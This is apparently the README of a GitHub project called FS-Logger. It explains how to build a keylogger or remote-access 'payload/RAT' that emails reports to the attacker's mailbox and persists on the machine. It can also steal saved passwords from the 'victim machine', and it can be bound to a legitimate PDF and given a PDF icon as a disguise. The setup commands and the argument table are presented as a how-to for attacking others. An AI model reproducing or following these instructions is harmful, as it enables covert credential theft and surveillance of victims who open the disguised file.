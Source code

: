 ```bash

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How To Use in Windows
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/F-Society-Official/FS-Logger.git

# Go into the repository
$ cd FS-Logger

# Installing dependencies
$ python -m pip install -r requirements.txt

# Open fslogger.py in Text editor and Configure Line 12 WINDOWS_PYTHON_PYINSTALLER_PATH = "C:/Python39/Scripts/pyinstaller.exe" 

# Getting Help Menu
$ python fslogger.py --help

# Making Payload/RAT
$ python fslogger.py -e youremail@gmail.com -p YourEmailPass -i Interval -t TIME_PERSISTENT -s -o output_file_name --icon icon_path

Note: You can also use our custom icons from the icon folder, just use them like this  --icon icon/pdf.ico
```

## How to Update

* Run updater.py to Update Autmatically or Download the latest Zip from this GitHub repo
* Note: Git Must be Installed in order to use updater.py

## Note:- Evil File will be saved inside dist/ folder, inside FS-Logger/ folder

## Available Arguments 
* Optional Arguments

| Short Hand  | Full Hand | Description |
| ----------  | --------- | ----------- |
| -h          | --help    | show this help message and exit |
| -i INTERVAL | --interval INTERVAL | Time between reports in seconds. default=120|
| -t TIME_PERSISTENT | --persistence TIME_PERSISTENT | Becoming Persistence After __ seconds. default=10 |
|  -w | --windows | Generate a Windows executable. |
|  -l | --linux   | Generate a Linux executable. |
|  -s | --steal-password | Steal Saved Password from Victim Machine [**Supported OS : Windows**] |
| -b file.txt | --bind LEGITIMATE_FILE_PATH.pdf | AutoBinder : Specify Path of Legitimate file. [**Supported OS : Windows**] |
| -d | --debug | Payload Will Run In Foreground with CMD Window, To get Appropriate Execution Error |
#### Note : Either **-w/--windows** or  **-l/--linux** must be specified 